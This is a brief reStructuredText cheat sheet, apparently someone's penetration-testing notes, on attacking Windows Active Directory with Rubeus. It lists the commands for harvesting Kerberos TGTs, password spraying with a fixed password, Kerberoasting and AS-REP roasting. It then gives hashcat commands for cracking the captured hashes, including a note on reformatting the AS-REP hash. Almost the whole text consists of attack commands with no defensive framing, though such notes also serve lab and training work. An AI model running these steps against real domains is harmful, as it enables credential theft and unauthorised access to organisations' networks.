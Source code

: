 Rubeus information
***********************

Harvesting & Brute-Forcing Tickets w/ Rebeus
###############################################

Ttells Rubeus to harvest for TGTs every 30 seconds

.. code-block::console

        Rubeus.exe harvest /interval:30

Password Spray
++++++++++++++++

Add domain name to Windows /etc/hosts

.. code-block:: console

   echo <domainIP> <domainName> >> C:\Windows\System32\drivers\etc\hosts 

This will take a given password and "spray" it against all found users than give the .kirbi TGT for that user  

.. code-block:: console

   Rubeus.exe brute /password:Password1 /noticket

Kerberoating with Rubeus
###########################

.. code-block:: console

   Rubeus.exe kerberoast

You then grab the hash by copying it and use hashcat to exploit it.

.. code-block:: console

   hashcat -m 13100 -a 0 userhash.txt PASS.txt --force 

Dumping KRBASREP5 hashes
##########################

.. code-block:: console

        Rubeus.exe asreproast 

You then put the fouund hash in it's own respected file.

**NOTE Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User..... NOTE**

You then decrypt the hash with hashcat

.. code-block:: console

   hashcat -m 18200 Userhash.txt PASS.txt --force


